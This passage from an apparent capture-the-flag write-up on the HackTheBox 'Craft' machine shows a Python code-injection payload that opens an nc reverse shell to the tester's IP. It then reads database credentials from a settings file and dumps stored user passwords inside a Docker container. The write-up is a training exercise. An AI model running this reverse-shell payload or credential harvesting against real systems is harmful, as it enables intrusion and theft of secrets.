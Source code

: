 Executing the script:
```markdown
python3 test.py
```

After executing the script and listening on incoming ICMP packets with `tcpdump`, it sent packets successfully and proofed command execution.
Changing the `ping` command to a reverse shell command:
```python
# (...)
cmd = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 9001 >/tmp/f')"
# (...)
```

After executing _test.py_ again, it will start a reverse shell connection on my IP and port 9001 as _root_ on a client with the hostname _5a3d243127f5_ that probably is a **Docker container**.

## Enumerating the Docker container

In the application directory _/opt/app/craft_api_ is a file called _settings.py_ which has more credentials in it:
```markdown
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'

# Flask-Restplus settings
(...)
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
```

Lets modify _/opt/app/dbtest.py_ to show all databases:
```python
# (...)
try:
    with connection.cursor() as cursor:
        sql = "show tables;"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)
# (...)
```

```markdown
{'Tables_in_craft': 'brew'},
{'Tables_in_craft': 'user'}
```

Now the tables of the database can be enumerated by using different SQL queries. Enumerating database _user_:
```markdown  
sql = "select * from user;"
```
```markdown  
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'},
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'},
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
```

